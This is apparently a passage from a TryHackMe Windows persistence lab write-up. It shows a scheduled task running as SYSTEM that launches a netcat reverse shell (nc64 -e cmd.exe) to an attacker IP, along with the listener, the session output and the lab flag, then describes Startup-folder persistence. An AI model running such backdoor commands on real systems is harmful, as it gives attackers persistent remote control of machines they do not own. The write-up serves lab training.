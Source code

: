 	Use the reverse shell obtained through the task scheduler and execute C:\flags\flag9.exe to retrieve a flag.

```
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.11.81.220 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.

C:\Users\Administrator>schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         9/11/2022 9:17:00 PM   Ready

C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4449
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4449
Ncat: Listening on 0.0.0.0:4449
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:50000.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag9.exe
.\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```
![[Pasted image 20220911161947.png]]

Insert flag9 here
*THM{JUST_A_MATTER_OF_TIME}*

### Logon Triggered Persistence 

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

Startup folder

	Each user has a folder under C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.
